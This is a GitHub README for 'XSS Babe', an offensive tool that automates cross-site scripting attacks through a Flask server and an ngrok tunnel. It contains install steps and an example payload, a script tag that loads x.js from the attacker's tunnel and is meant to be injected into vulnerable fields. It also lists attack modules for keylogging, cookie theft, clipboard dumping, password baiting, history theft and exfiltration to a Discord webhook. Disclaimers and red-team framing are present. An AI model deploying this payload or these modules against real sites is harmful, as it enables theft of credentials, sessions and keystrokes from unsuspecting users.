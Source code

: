 # XSS BABE 🖤

XSS Babe is a red team tool for exploiting XSS vulnerabilities in real time. It automates payload delivery, logs sessions, and enables live browser-based attacks from a command-line interface. Built for ethical hacking, phishing research, and security education.

---

## ⚠️ Legal Disclaimer

Never use this tool without proper consent. 
 
User assumes all risks when using this tool.

ekomsSavior provides this tool without warranty. 
 
 ---

##  File Structure

```
xss_babe/
├── xss_babe_cli.py             # Main interactive CLI launcher
├── server.py                   # Flask backend serving modules and payloads
├── requirements.txt            # Python dependencies
├── static/
│   ├── x.js                    # Main XSS loader script
│   └── modules/                # Individual attack modules
│       ├── auto_cookie_steal.js
│       ├── clipboard.js
│       ├── cross_tab_messaging_spy.js
│       ├── discord_logger.js
│       ├── fake_download.js
│       ├── history_stealer.js
│       ├── keylogger.js
│       └── password_bait.js
├── utils/
│   └── save_to_txt.py          # Optional utilities for saving session data
└── session_reports/
    └── example_report          # Placeholder file to preserve folder
```

---

##  Installation

**Dependencies (Tested on Kali Linux):**

```bash
sudo apt update
sudo apt install python3 python3-pip unzip -y
pip3 install -r requirements.txt
```

**Install Ngrok:**

```bash
wget https://bin.equinox.io/c/bNyj1mQVY4c/ngrok-stable-linux-amd64.zip
unzip ngrok-stable-linux-amd64.zip
sudo mv ngrok /usr/local/bin/
```

---

##  Ngrok Setup

1. Sign up: https://ngrok.com/signup  
2. Get your auth token: https://dashboard.ngrok.com/get-started/setup  
3. Add it to your config:

```bash
ngrok config add-authtoken YOUR_TOKEN_HERE
```

---

##  Usage

```bash
python3 xss_babe_cli.py
```

### What Happens:

- You enter a vulnerable XSS URL (e.g. `https://vuln.site/?q=`)
- Flask server and Ngrok auto-launch
- Payload is generated with the hosted `x.js`
- CLI menu opens with live attack modules
- All session info is logged to `session_reports/`

---

##  Example Payload

Replace `YOUR_NGROK_URL` with the tunnel shown in the CLI:

```html
<script src="https://YOUR_NGROK_URL/static/x.js"></script>
```

Paste this into any vulnerable parameter, form, or field you control.

---

##  Attack Modules

| Module                   | Description                                         |
|--------------------------|-----------------------------------------------------|
| keylogger                | Records keystrokes live from the victim             |
| clipboard                | Dumps clipboard contents                            |
| auto_cookie_steal        | Steals document cookies silently                    |
| discord_logger           | Sends logs to Discord webhook (edit inside script)  |
| fake_download            | Triggers fake file downloads (ZIP, PDF, etc.)       |
| password_bait            | Displays bait input field to trap saved passwords   |
| history_stealer          | Dumps limited browsing history if accessible        |
| cross_tab_messaging_spy  | Tracks multiple browser tabs or windows             |

---

##  Session Logs

All payloads and events are saved to:

```
session_reports/YYYY-MM-DD-HHMMSS.txt
```

This includes:
- Target URL
- Payload used
- Ngrok tunnel
- Timestamp

---

## Stay Ethical

Never deploy on unauthorized systems.

---

##  Author by [ekomsSavior](https://github.com/ekomsSavior) 🖤
